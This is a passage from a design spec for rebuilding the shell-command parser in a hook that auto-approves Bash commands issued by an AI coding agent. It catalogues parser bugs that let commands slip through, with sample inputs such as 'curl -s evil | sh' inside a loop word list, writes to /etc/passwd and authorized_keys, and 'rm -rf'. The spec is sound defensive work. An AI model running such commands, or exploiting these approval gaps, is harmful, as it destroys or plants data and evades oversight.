

# Design: replace cmdparse's hand-rolled scanners with a single parser front end

- **Bead**: pg2-1vme1 (P0, REVIEW+STRATEGY)
- **Date**: 2026-07-29
- **Status**: Accepted, recorded as ADR 0039 in this repo
  (`docs/adr/0039-ceta-shell-parser-front-end.md`)

> **The ADR is authoritative on policy; this spec carries the working detail.** Where they
> differ, the ADR wins. This spec has been reconciled with it, but a reader acting on the
> invariants SHOULD read the ADR's "Invariants" section as the binding statement.

## 1. Problem

`internal/cmdparse` derives command structure through several independent, inconsistent
text passes. Each decides where a command begins, ends, or nests, so a disagreement between
any two is a security-relevant divergence. The pattern has produced at least thirteen
defects, **four** of which were or are live auto-approve holes.

Commit `1c749bbd` already applied the obvious remedy — consolidating four drifted scanner
copies into one `shellScanner` — and nine more instances surfaced afterwards. A second
consolidation is therefore not the answer; the question is why consolidation did not hold.

### 1.1 Inventory

Sites 1-10 are carried forward from the bead. Sites 11-13 were found while preparing this
design: 11 by grepping for byte-level quote handling outside `cmdparse`, 12 and 13 by the
adversarial review of this spec's own root-cause analysis.

| #   | Site                                                    | Classification                                               | Defect                                                                                                                                                                                                               | Status                                                                                                                |
| --- | ------------------------------------------------------- | ------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------- |
| 1   | four drifted scanner copies                             | quote-blind inside `$( )`                                    | desync                                                                                                                                                                                                               | FIXED `1c749bbd`                                                                                                      |
| 2   | `EnumerateSubstitutions`                                | no desync signal                                             | an unbalanced quote returned an empty list, folded to **Approve**                                                                                                                                                    | FIXED `aa72b20f`                                                                                                      |
| 3   | `EnumerateSubstitutions` on heredoc bodies              | quotes-as-syntax                                             | verdict depended on apostrophe **position**                                                                                                                                                                          | FIXED `aa72b20f`                                                                                                      |
| 4   | `splitCompound` bare-subshell matcher (`parser.go:999`) | quote-**blind** counter, nested inside a `shellScanner` loop | truncates `(echo ')'; ls)`                                                                                                                                                                                           | OPEN — pg2-s26v5                                                                                                      |
| 5   | leaf `Raw` vs heredoc extents                           | lossy re-derivation                                          | re-parsing `Raw` re-derives an unterminated extent                                                                                                                                                                   | OPEN — pg2-s26v5                                                                                                      |
| 6   | `StripCommentsPreservingHeredocs`                       | per-**line** strip                                           | truncates at `#` inside a multi-line quoted argument; mangled 41 corpus rows                                                                                                                                         | OPEN — pg2-4h7ee                                                                                                      |
| 7   | `atWordStart` vs `splitCompound`                        | **unrepresentable** predicate (see §2.1)                     | phantom heredoc from `(<)#<<0`                                                                                                                                                                                       | FIXED in pg2-r2rf3's draft                                                                                            |
| 8   | `resolveLoops` / `isDoneKeyword`                        | text-prefix match                                            | drops the segment carrying `done <<DELIM`                                                                                                                                                                            | OPEN — pg2-14vjq                                                                                                      |
| 9   | `extractRedirections` (`parser.go:1292`)                | token-**prefix** match                                       | `2<<EOF` leaks into `Args` as a phantom operand                                                                                                                                                                      | heredoc-detection half CLOSED by pg2-r2rf3 (`parser.go:877-880`, pinned `heredoc_test.go:247`); **operand leak OPEN** |
| 10  | `classifyExpansion`                                     | keys on `$`/backtick                                         | `A=<(evil)` never recursed                                                                                                                                                                                           | OPEN — pg2-qvn6a                                                                                                      |
| 11  | `rules/docker.splitOnShellOperators` (`docker.go:421`)  | **text rewriting**                                           | splits on `&&`/`\|\|`/`;` inside `$( )`, then **rejoins** and hands the mutated text to the engine; `stripSinglePassthrough` re-emits post-`unquote` args, so `gosu u sh -c 'a; b'` promotes `b` to a top-level leaf | **NEW, OPEN**                                                                                                         |
| 12  | `resolveLoops` terminator segment (`parser.go:1054`)    | **segment deletion**                                         | `for f in a b; do echo hi; done > /etc/passwd` → **approve**; also `while`/`until`, `>>`, `2>>`, `~/.ssh/authorized_keys`                                                                                            | **NEW, OPEN, P0 — pg2-qkecz**                                                                                         |
| 13  | `resolveLoops` for word list (`parser.go:1085`)         | **segment deletion**                                         | `for x in $(curl -s evil \| sh); do echo hi; done` → **approve**; substitution never recursed                                                                                                                        | **NEW, OPEN, P0 — pg2-qkecz**                                                                                         |

Sites 12 and 13 are verified end-to-end through `EvaluateHook`, with controls
(`echo hi > /etc/passwd` → abstain, `(echo hi) > /etc/passwd` → abstain). Both are filed as
P0 pg2-qkecz and **MUST be fixed on `main` ahead of this migration** — a live auto-approve
hole does not wait for an architecture change.

Site 11's mechanism is text rewriting, not a competing leaf set: `splitOnShellOperators`'s
only caller is `stripDockerPassthroughs` (`docker.go:403-413`), which splits, rewrites, and
**rejoins** with `" " + operator + " "` before handing the result to
`r.exprEval.EvaluateExpression` (`docker.go:158`, `:189`). The engine then parses corrupted
text. This is structure→text, the opposite direction from the engine→rule round-trip, and
strategy C alone does not close it.

## 2. Root-cause analysis: why `1c749bbd` did not hold

**Four** distinct causes. The bead named the first; the review of this spec's first draft
found the fourth.

### 2.1 `advance` is a byte primitive with no EXTENT API

`shellScanner.advance` reports what one byte does. It cannot report where a _region_ ends.
Every caller that needs an extent — a subshell's, a process substitution's, a paren match's,
a heredoc body's — therefore hand-rolls a quote-blind depth counter **while holding the
shared scanner**:

- `splitCompound`'s bare-subshell matcher, `parser.go:999-1010` — plain `depth++`/`depth--`
  over `s[j]`, quote-blind. This **is** instance #4, and it sits inside a `shellScanner` loop.
- `tokenize`'s process-substitution matcher, `parser.go:1177-1185` — same shape, same blindness.

Plus six functions that scan independently of the shared scanner: `scanSubstitutions` (`:276`),
`matchParen` (`:358`), `indexUnescapedBacktick` (`:390`), `commandStartOffset` (`:425`),
`parseHeredocOperator` (`heredoc.go:95`), `readHeredocBody` (`heredoc.go:150`). Of these
only `commandStartOffset` documents the opt-out (`parser.go:420-424`); `matchParen` simply
predates the scanner. `indexUnescapedBacktick`'s own caller documents it as **not
quote-aware** (`parser.go:137-140`), and that caller is `IsSafeSubstitutionBody`, on the P0
path.

On instance #7 specifically: the disagreeing predicate lives outside `advance`, so sharing
`advance` could not have prevented it — but the sharper point is that the two predicates are
of different _kinds_. `splitCompound`'s is **stateful** (`i == 0 || buf.Len() == 0 ||
isSpace(s[i-1])`, `parser.go:985`); `atWordStart` is **positional** (`heredoc.go:76-85`). A
positional predicate cannot express "after a flushed subshell" at all. This was never drift
between copies; it was an **unrepresentable predicate**. A real parser makes word-start a
parser fact rather than a predicate.

### 2.2 Every pass returns text

`splitCompound` returns `[]string`. `tokenize` returns `[]string`. `stripHeredocBodies`
returns a **modified string**. Structure discovered by one pass is discarded, so the next
pass must re-derive it. Instance #5 is this in its purest form: `Raw` is post-strip text, so
re-parsing it re-derives an extent that is no longer terminated.

### 2.3 The engine-to-rule boundary re-serialises structure back to text

`engine.go:222-231` and `engine.go:462-471` each build a synthetic `HookInput` with
`ToolInput: mustBashJSON(pc.Raw)`. There are **22 `cmdparse.Parse` call sites across 19 rule
modules** (plus `engine.go:162`); **19** of the 22 re-parse the round-tripped `pc.Raw`, and
the other three parse different strings (`docker.go:472`, `gitdir.go:227`,
`safecmds.go:128`).

The currency of the rule interface is `string`, so hand-rolling is the path of least
resistance **by construction** — Primitive Obsession sited at an architectural boundary
rather than inside `cmdparse`. Instance #11 is the predicted consequence: `docker` needed
operator-joined segments, `ParsedCommand` did not carry them, and the raw text was available.

### 2.4 A pass may DELETE a segment, so the leaf set is not a partition of the command

This is neither a scanner nor a serialisation problem: structure is not mis-derived, it is
**discarded**.

`resolveLoops` (`parser.go:1054-1071`) replaces a loop with `extractLoopBody`'s return and
advances `i = endIdx + 1`, so the segment matching `isDoneKeyword` (`parser.go:1149`, a
`strings.HasPrefix(seg, "done ")` text-prefix match) is dropped **with its redirection**; and
because `isCondLoop` is false for a `for` loop (`parser.go:1085`), the word-list segment is
never added to `conditionSegs` and is dropped too.

`Parse`'s leftover net (`parser.go:941-949`) covers **heredocs only**. There is no
redirection net and no substitution net, so nothing catches the loss. `parser_test.go:1403`
and `:1444` pin both drops as _intended_, which is why no test caught instances 12 and 13.

**This cause is why the corpus replay is not sufficient evidence on its own.** A faithful
port preserves a dropped segment on both sides of the comparison, so the replay shows zero
change while the hole persists. §9 therefore adds a coverage check that does not depend on
differential comparison.

## 3. Axes of quote-awareness

Instance #3 showed a single boolean is insufficient. The axes are:

1. **Quote role** — is `'` syntax (delimiting a literal region) or data (a byte in a heredoc
   body or a comment)?
2. **Expansion liveness** — `'…'` no; `"…"` yes for `$`/backtick; unquoted heredoc body yes;
   quoted heredoc body no; comment no.
3. **Nesting reset** — does the construct start a _fresh_ quoting context? `$( )` yes;
   `"…"` no. This is what `shellScanner.frames` models.
4. **Escape rule** — does `\` escape in bare context? (`escapeUnquoted`, which legitimately
   differs per caller because of `find \( … \)`.)
5. **Extent knowability** — can the construct's end be located at all? If not, the result
   MUST be Unparseable. §2.1 shows this axis has no API today, which is why it is
   re-implemented per caller.

`mvdan.cc/sh/v3/syntax` encodes all five as **types**: `Lit`, `SglQuoted`, `DblQuoted`,
`CmdSubst`, `ProcSubst`, `Redirect.Hdoc`, and a parse error for axis 5.

## 4. Evidence

The corpus is 189,678 **distinct** `command` strings from the 208,986 `tool_name='Bash'`,
`excluded=0` rows of `tool_decisions` (325,190 rows total). 49,576 of the distinct commands
(26.1% = 49576/189678) are multi-line.

### 4.1 Latency

Both sides produce **lowered leaves**, not an AST, and neither runs any rule. The current
side is `StripCommentsPreservingHeredocs` + `Parse`, matching `engine.go:159-162`. The
candidate side includes an AST-to-leaf lowering inside the timed region.

| metric          | current    | candidate | ratio (current ÷ candidate) |
| --------------- | ---------- | --------- | --------------------------- |
| mean            | 15.139 µs  | 3.943 µs  | 3.8×                        |
| p50             | 7.167 µs   | 2.458 µs  | 2.9×                        |
| p95             | 40.167 µs  | 11.083 µs | 3.6×                        |
| p99             | 92.792 µs  | 20.458 µs | 4.5×                        |
| p99.9           | 440.084 µs | 50.750 µs | 8.7×                        |
| max             | 75.756 ms  | 3.893 ms  | 19.5×                       |
| leaves produced | 828,620    | 818,475   | −1.22%                      |

**The candidate figure is a LOWER BOUND, not a result.** The lowering used for timing omits
`unwrapCommand`/`unwrapExecPrefix`/`liftAssignmentArgs`, `NormalizeCommand`, exact
`resolveLoops` semantics, herestring handling, and exact `unquote` parity. Step 1 MUST
re-measure the complete lowering, and that re-measurement is a **gate**: the conclusion
"the candidate is not slower than what it replaces" is what the design rests on, and it is
not yet proven for the complete lowering.

**Gate pass criterion**, so it is evaluable rather than a matter of taste: measured over the
same corpus and reported at every percentile above, the complete lowering MUST show **mean and
p99 both no worse than the outgoing front end's** (15.139 µs and 92.792 µs). Regression in
`max` alone MAY be accepted with a recorded reason — `max` is one pathological input and the
outgoing parser's own is 75.756 ms — but a p99 regression MUST NOT be waived, because a hook
runs on every tool call and p99 is what a user feels. If the gate fails, STOP and report; do
not proceed to step 2 on the strength of the other arguments.

Two further qualifications:

- The **−1.22% leaf-count difference is the verdict-moving delta in raw form** and MUST be
  accounted for row-by-row. It is not noise.
- Today's cost is paid more than once per invocation, but `engine.Evaluate` is
  first-match-wins (`engine.go:105`), so the multiplier depends on rule position and no
  number is claimed. It will not reach 1 while `gitdir.scopeLeaves` and the
  substitution-scan family remain (see §11 steps 2a and 5).

The 75.756 ms current-parser maximum indicates superlinear behaviour in the existing front
end, most likely `splitCompound`'s recursive re-split combined with
`StripCommentsPreservingHeredocs`'s per-line scan over heredoc spans.

### 4.2 Capability

| #   | Probe                                           | Result                                                         |
| --- | ----------------------------------------------- | -------------------------------------------------------------- |
| 4   | `(echo ')'; ls)`                                | Subshell, 2 stmts, `ls` survives                               |
| 5   | `cat <<EOF\nbody\nEOF\nls`                      | body on `Redirect.Hdoc`; `ls` a separate leaf; no re-parse     |
| 6   | `git commit -m 'line1\n# not a comment\nline2'` | `#` stays inside the argument                                  |
| 7   | `(<)#<<0`                                       | parse error → Abstain                                          |
| 8   | `while read c; do echo $c; done <<EOF…`         | redirect attached, body captured, no `"done "` match needed    |
| 9   | `cat 2<<EOF…`                                   | `fd=2`, native; no phantom operand                             |
| 10  | `A=<(evil) cmd`                                 | `parts=[ProcSubst]`; `evil` is a walkable leaf                 |
| 3   | `cat <<EOF\ndon't\n$(rm -rf x)\nEOF`            | `hdocParts=[Lit CmdSubst Lit]` — **the substitution is found** |
| 3b  | `cat <<'EOF'\n$(rm -rf x)\nEOF`                 | `hdocParts=[Lit]` — the substitution is literal                |

Instances 3 and 3b are the load-bearing pair: pg2-r2rf3's quoted/unquoted heredoc
discriminator is **structurally encoded**, not re-derived.

`X=$(jq 'select(.a)' f) && echo $X` also lowers correctly, but it is **not** a current
defect — `shellScanner` already fixed it (`parser.go:685-699`). It is listed only as a
regression check.

One capability loss: `FOO=(a b) cmd` is a parse error ("inline variables cannot be arrays"),
though `bash -c 'FOO=(a b) echo hi'` prints `hi`. `commandStartOffset` handles this form
deliberately. Under the new front end it Abstains — the safe direction, but a real loss that
MUST appear in the replay.

### 4.3 Parse outcome

| outcome                        | rows    | share    |
| ------------------------------ | ------- | -------- |
| parsed OK                      | 189,615 | 99.9668% |
| parse error, zsh-dialect cause | 17      | 0.0090%  |
| parse error, other cause       | 46      | 0.0243%  |

The 46 break down as 8 unclosed `"`, 5 unclosed `'`, 7 unclosed heredocs, and the remainder
genuinely invalid bash (`&;`, a redirection inside a `for` word list, stray parens). **The
Abstain-on-unparseable contract is required regardless of shell dialect.**

Consequence that MUST be stated plainly: under I1b + I8, a whole-command parse failure
yields Abstain with **no leaf examined**, so for these 63 rows any `Reject` a leaf earns
today is forfeited. That is a movement in the _more permissive_ direction on the
restrictiveness order even though it never reaches `allow`, and §9's gate is worded to catch
it.

### 4.4 Shell dialect

Claude Code's `Bash` tool runs **zsh 5.9** here (`$0=/bin/zsh`, `BASH_VERSION` unset). The
hook input carries **no shell field**: `hookio.HookInput` has `session_id`, `cwd`,
`tool_name`, `tool_input`, `permission_mode`, `agent_id`, `agent_type`, `transcript_path`,
and the Bash tool input is `{"command": …}` (`hookio/types.go:125`). CETA is structurally
blind to the executing dialect.

Observed zsh dependence, detected **from the AST** so a signal inside a quoted argument or
heredoc body counts as data:

| class                                            | rows | share   |
| ------------------------------------------------ | ---- | ------- |
| zsh-dialect parse errors                         | 17   | 0.0090% |
| `setopt`/zsh-only builtin in executable position | 6    | 0.0032% |
| **total observed zsh dependence**                | 23   | 0.0121% |
| `=cmd` equals-expansion in executable position   | 0    | —       |
| `$arr[i]` array subscript                        | 0    | —       |

A first attempt used regexes over raw text and reported 139 rows; most were false positives
(`$var[` inside single-quoted `jq` programs, `=word` inside `bd update --append-notes`
prose). That regex pass was itself a quote-blind scanner and failed in exactly the way this
design exists to prevent. A `*(qual)` glob-qualifier row is **omitted**: the only figure
available came from a check that also matched literals nested inside quoted words, so it
bounds nothing. Threading the parent through the visitor would fix it; it is not needed for
this decision.

The employer's monorepo has **0** zsh shebangs against **2,381** bash shebangs, and no
skill, plugin, or agent instruction depends on zsh (the single `zsh` mention is in a
devbox plugin's `check-shell-rc.sh`, itself a bash script handling either shell).

## 5. Strategies evaluated

| Strategy                                         | Verdict                                                                                                                                                                                                                                                                                                         |
| ------------------------------------------------ | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **A.** hand-rolled single-pass lexer             | **Subsumed, not rejected.** A is the correct shape; B is A with an upstream maintainer, an upstream fuzzing corpus, and spec tracking. Choosing A means owning the shell grammar permanently for no additional capability, and (subject to §4.1's re-measurement gate) for no latency advantage either.         |
| **B.** real shell parser (`mvdan.cc/sh/v3`)      | **CHOSEN.** Priced on all three axes the bead demanded — dependency: one pure-Go module, no cgo (transitive `golang.org/x/{sync,term}` to be confirmed against the generated toml); corpus verdict delta: parse-level ceiling 0.0332%, with the −1.22% leaf delta owed to the replay; latency: see §4.1's gate. |
| **C.** type-level enforcement                    | **CHOSEN, combined with B.** Addresses root cause 2.3, which B alone does not. Does **not** by itself close #11, which is text rewriting in the other direction — see I13.                                                                                                                                      |
| **D.** generalise pg2-wguam's fail-safe contract | **CHOSEN as the seam's contract.** With B it becomes automatic rather than per-site discipline.                                                                                                                                                                                                                 |
| **E.** differential/property testing             | **CHOSEN as an enforcement mechanism, but insufficient alone** — §2.4 shows the replay is blind to a segment dropped on both sides. Paired with the coverage check in §9.                                                                                                                                       |
| Pre-parse "simple command" fast path             | **REJECTED** — §5.1.                                                                                                                                                                                                                                                                                            |
| Shape-gated approval                             | **DEFERRED out of scope** — §5.2.                                                                                                                                                                                                                                                                               |
| zsh-specific rule tier                           | **REJECTED.** 0.0121% observed exposure, 0 in the ZR monorepo. A parse failure MUST Abstain; that is sufficient.                                                                                                                                                                                                |
| tree-sitter-bash                                 | **REJECTED.** Requires cgo, which the binary does not need today (`modernc.org/sqlite` is pure Go). No mature zsh grammar exists either.                                                                                                                                                                        |
| a zsh parser                                     | **UNAVAILABLE.** `mvdan.cc/sh` offers bash/POSIX/mksh/bats and declines zsh by name. zsh offers `-n` (syntax check, no structure) and no library API.                                                                                                                                                           |

`mvdan.cc/sh/v3` is in **neither** `go.mod` nor `gomod2nix.toml` today. The gomod2nix
_mechanism_ is wired; the dependency is not. Adding it is a step 1 obligation
(`go mod tidy && nix run github:nix-community/gomod2nix -- generate`, commit the toml).

### 5.1 Why a pre-parse fast path is rejected

Deciding whether a command is "simple" **is** the parsing decision. Establishing that
`foo -a bar` is only a command and arguments requires establishing the absence of quotes,
`$( )`, backticks, `&&`/`||`/`;`/`|`, newlines, redirections, heredocs, assignments, globs
and subshells. That classifier is a scanner over raw text, and a cheap one is by definition
quote-blind — instances #4, #6, #8, #9, #10 and every auto-approve hole in the inventory.

The failure geometry is also strictly worse than today's. At present every command flows
through one parser, so a scanner bug yields a wrong verdict. With a pre-parse fast path, a
classifier that wrongly reports "simple" causes the command to **bypass the parser entirely**
and be judged by the weaker rule set — a fast path around the security control.

The motivating cost does not exist: the candidate's p50 is 2.458 µs against the current
front end's 7.167 µs, so parsing everything is already cheaper than the status quo.

That last argument rests on a figure "Latency" calls a lower bound, so state plainly: **the
rejection does not depend on it.** The other two arguments — that the classifier _is_ the
parse, and that the failure geometry is strictly worse because a misclassification bypasses
the parser entirely — are independent of any measurement. The rejection stands even if step 1's
re-measurement erases the latency advantage completely.

### 5.2 Why shape-gated approval is deferred

The sound version of the fast-path idea is to keep parsing everything and make `Approve`
conditional on a leaf shape a rule has declared it can judge — generalising
`assignmentIsWholeLeaf` (pg2-0q99a).

It is **deferred out of this design's scope**, for two reasons. First, §14 already places
rule-chain policy out of scope, and a shape lattice plus a per-rule declaration table is
rule-chain policy. Second, and more importantly, it carries the same geometry §5.1 rejects,
moved one layer down: a _lowering_ bug that wrongly reports a shape as simple **widens**
approval. "Computed from the AST, so it cannot disagree with the parser" answers the wrong
objection — the risk is the predicate being wrong, which is §2.1's own diagnosis of #7.
Adopting it therefore requires its own fuzz invariant and its own replay, which is a
separate bead, not a paragraph here.

## 6. Architecture



Retaining the **source string** alongside the AST is load-bearing, not incidental: I12 in
"Invariants" depends on it for cycle-detection keys, and so does "The `Raw` decision".

### 6.1 Parser configuration

Two constructor options are part of the decision, not implementation detail:

```go
syntax.NewParser(syntax.Variant(syntax.LangBash), syntax.KeepComments(true))
```

- **`Variant(syntax.LangBash)`** MUST be used. It is what makes a zsh-only construct a parse
  **error** rather than a silent mis-parse, so every dialect figure in "Shell dialect" and the
  whole of I10 depend on it. `LangPOSIX` would reject bash-only syntax CETA must model;
  `LangAuto` would infer per input and make the dialect posture non-deterministic.
- **`KeepComments(true)`** MUST be used. Comment handling becomes a parser fact rather than a
  separate pass, which is the entire basis for retiring `StripCommentsPreservingHeredocs`
  (inventory site 6) by construction instead of replacing it. Without it, comments are
  discarded silently and `ExtractComment`'s `ParsedCommand.Comment` field cannot be populated.

Design patterns: the seam is a **Facade** over the parser and an **Adapter** from
`syntax.File` to `ParsedCommand`; `Unparseable` is a first-class value rather than an absent
result; the verdict fold is a **Composite** over leaves ordered by a total restrictiveness
order.

## 7. The `Raw` decision

pg2-s26v5 required an explicit decision about `ParsedCommand.Raw`, and this is it.

**`Raw` MUST become the exact source slice `[Stmt.Pos().Offset(), Stmt.End().Offset())` of
the owning `File`.**

This single decision resolves three open problems at once:

- **Instance #5** — `Raw` is no longer post-strip text, so it cannot re-derive an
  unterminated heredoc extent. It is lossless by construction.
- **`FuzzParse` idempotence** — the harness's invariant (re-parsing a leaf's `Raw` reproduces
  its executable and `EnvVars`, `fuzz_test.go:249-272`) becomes meaningful rather than
  vacuous, because an exact source slice re-parses to the same subtree.
- **Cycle detection** — `EvaluateExpression`'s cycle key is a normalised **string**
  (`engine.go:143`, `:145-153`, `:412`, `normalizeExpression` at `:502-504`). An exact source
  slice supplies that key without printing the AST. Printing would be structure→text, i.e.
  root cause 2.3 reintroduced, and its output would not equal `normalizeExpression` of the
  original, so every cycle key would silently change.

## 8. Invariants

RFC 2119. Each clause names the bead that established it.

- **I1a (pg2-wguam)** An unparseable or desynced **scan** MUST yield `Abstain` and MUST NEVER
  yield `Approve`. The floor MUST be applied as a `MostRestrictive` **fold**, never as an
  early return, so the result stays order-independent.
- **I1b (this design)** A whole-command **parse failure** MUST yield `Abstain`. This is new
  and stronger than I1a: no leaf is examined, so any `Reject` a leaf would have earned is
  forfeited. It applies to the 63 rows of §4.3 and MUST be reported as such in the replay.
- **I2 (pg2-r2rf3)** `heredocFloor()` MUST keep firing for every heredoc- **or
  herestring**-bearing leaf, because a body can be an interpreter's program (`sh <<EOF`,
  `python <<EOF`) that no shell parser models. It MUST remain a `MostRestrictive` fold. Every
  heredoc extent MUST reach some leaf (**losslessness**); per-leaf attribution is deliberately
  imprecise and, because the floor is folded, does not affect the expression verdict
  (`parser.go:875-876`, `:941-949`).
- **I3 (pg2-r2rf3)** The quoted/unquoted heredoc discriminator MUST survive: identical bytes
  under `<<EOF` deny while `<<'EOF'` abstains. `<<-` tab stripping MUST keep working for body
  lines **and the terminator line**, and the command FOLLOWING a `<<-EOF` block MUST survive.
- **I4 (pg2-0q99a)** `assignmentIsWholeLeaf` MUST keep gating the `envvars` `Approve`.
  `TestEnvVars_ApproveOnlyForVerifiedPreserveForm` pins it and MUST continue to pass.
- **I5 (pg2-xkugg)** The engine's redirection and sibling-leaf backstops MUST hold, and the
  `len(pc.EnvVars) > 0` withhold in **`rules/configrules/configrules.go:259`** MUST hold.
  Together they bound the `config-rules` bypass. The withhold is a **rule-side** guard, so
  step 3 (which changes how a rule reaches `pc.EnvVars`) owes its test.
- **I6 (this design)** Only the seam file MAY import the module `mvdan.cc/sh/v3` — any package
  within it, not just `.../syntax`. Every other file in the CETA module MUST NOT import it.
  File granularity is deliberate: the seam shares `internal/cmdparse` with other files, so a
  package-level rule would leave them unbound. Naming the whole module is also deliberate: a
  rule importing `mvdan.cc/sh/v3/expand` would derive structure outside the seam while a
  `syntax`-only guard passed green.
- **I7 (this design)** Each **distinct source text** MUST be parsed at most once per
  `EvaluateHook`. Substitution and heredoc-body recursion MUST walk subtrees of an
  already-parsed `File` and MUST NOT re-parse body text. This is deliberately weaker than
  "one parse per command": `hookio.Evaluator.EvaluateExpression` takes a `string`
  (`hookio/types.go:177`) and its callers construct text that exists nowhere in the
  source (`docker.go:152`, `:182`; `safecmds.go:128`; `envvars.go:441`), so a text entry
  point MUST remain and MUST parse.

  The text entry point is **PERMANENT, not transitional**, and this needs saying because I13
  removes the rationale just given: once no rule may construct command text, those four
  callers cease to exist. It survives anyway because the OUTERMOST input is text — the hook
  receives `{"command": "…"}` and nothing upstream has parsed it. After step 5 its only
  legitimate caller is that hook boundary, and an implementer MUST NOT delete it as dead code.

- **I8 (this design)** There MUST NOT be a fallback parser. Retaining the previous parser for
  inputs the new one rejects would reintroduce two scanners that can disagree.
- **I9 (this design)** No file outside the seam MAY derive command structure from raw text.
  Enforced as stated in §9 guard 2.
- **I10 (this design)** CETA MUST NOT `Approve` a command the bash parser could not parse.
  Where the parser attributes the failure to zsh, the reason SHOULD name the dialect; where it
  does not, the reason MUST report the failure without guessing at a cause. The clause is
  scoped to **parse failure**, NOT to "a dialect CETA cannot model": as "Shell dialect"
  establishes, CETA receives no shell field and can never determine which dialect will run, so
  the wider reading would forbid approving anything. A construct that parses cleanly in both
  dialects with differing meaning is therefore OUTSIDE this clause — see "Risks".
- **I11 (this design)** CETA's correctness MUST NOT depend on the agent shell being bash.
  Forcing bash is defence in depth, applied in another repository, and can drift.
- **I12 (this design)** The seam MUST retain the source string alongside the AST. Identity
  keys — cycle detection and `Raw` — MUST be **derived from exact source slices** of the file
  being evaluated, and MUST NOT be produced by printing the AST. "Derived from" rather than
  "are": the cycle key passes through `normalizeExpression` (`engine.go:502-504`), which
  collapses whitespace, so it is a function of a slice rather than a slice itself. For the
  surviving text entry point of I7, whose input exists nowhere in any source, the slice is
  taken from the file produced by parsing that text, and the key is scoped to it.
- **I13 (this design)** No rule MAY construct or mutate command text for re-evaluation. A
  rule needing to delegate MUST do so through a **structural** entry point that passes a
  subtree. Without this, C is half a fix and instance #11 survives.
- **I14 (pg2-qkecz, this design)** Every executed subexpression MUST reach **at least one**
  leaf. No pass MAY delete a segment. This is the coverage invariant that root cause 2.4
  requires and that the differential replay structurally cannot provide.

  **Coverage, not partition** — a decision, not an imprecision. Overlap is harmless: leaf
  verdicts fold through `MostRestrictive` over the total order
  `Approve < Abstain < Ask < Reject`, so judging one subexpression under two leaves can only
  hold a verdict at or above where one leaf alone would put it, never lower. Requiring exactly
  one leaf would contradict I2, which deliberately permits imprecise per-leaf heredoc
  attribution, and would forbid attributing a compound's heredoc floor to each leaf it
  flattens into. The security property needed is that **nothing is dropped**; uniqueness buys
  nothing and costs an invariant conflict.

  **"Executed" needs a static surrogate**, since executedness is a runtime property
  (`if false; then rm -rf /; fi`). The surrogate is: every `*syntax.CallExpr` in the parsed
  `File`, plus every `Stmt` carrying `Redirs` or a heredoc, MUST be covered by at least one
  leaf's source span — **including nodes in untaken branches**. That is the conservative
  direction and the correct one: CETA cannot know which branch runs, so it MUST judge every
  branch that could.

## 9. Enforcement

1. **Import guard** — a test walks the import graph and fails if any file other than the
   seam imports the module `mvdan.cc/sh/v3` (I6), any package within it. Demonstrated by
   adding the import to a rule module.
2. **Raw-text-structure guard** (I9) — the syntactic property "quote comparison inside a
   loop" is **not** usable: it lands red on `envvars.isStaticAbsolutePath`
   (`envvars.go:296-301`, a character denylist, not a scanner) and green on
   `gitdir.containsVarRef` (`gitdir.go:276-296`, a genuine hand-rolled scanner with no quote
   comparison). Two candidate mechanisms, and **the choice is deliberately still open** —
   step 5 MUST decide it and record which it chose and why:
   - **Type-level**: raw command text gets a distinct named type only the seam can consume,
     so a scanner over it cannot be written without importing the seam. Needs no AST walk.
     **Known limitation**: this cannot catch `gitdir.containsVarRef`, whose only caller
     `referencesVar` (`gitdir.go:259-260`) feeds it `pc.Executable`, args and `rd.Path` —
     already-lowered `string` fields, not raw command text. A raw-text type leaves it
     perfectly writable.
   - **Repo-wide `go/ast` check** with a reviewed allowlist. Catches `containsVarRef`, at the
     cost of an allowlist to maintain.

   Scope MUST be the whole module, not just `internal/rules` and `internal/cmdparse` —
   instance #11 was found _outside_ `cmdparse`, which is the lesson. Required cases: fires on
   `splitOnShellOperators`; does NOT fire on `envvars.isStaticAbsolutePath`. Firing on
   `gitdir.containsVarRef` is required of the AST mechanism only, and if the type-level
   mechanism is chosen its inability to catch that shape MUST be recorded as accepted.

3. **Parse-count guard** (I7) — counts parses **per distinct source string, per
   `EvaluateHook`**, and fails on a repeat. It MUST land **after** step 5's gitdir migration,
   not with step 3: `gitdir.scopeLeaves` (`gitdir.go:222-234`) parses
   `input.RootExpression` — the same string `engine.go:162` already parsed — and recurses to
   `maxScopeDepth = 8` (`gitdir.go:61`), so the guard cannot go green before that is fixed.
4. **Coverage check** (I14) — for every corpus row, assert that every `*syntax.CallExpr` in
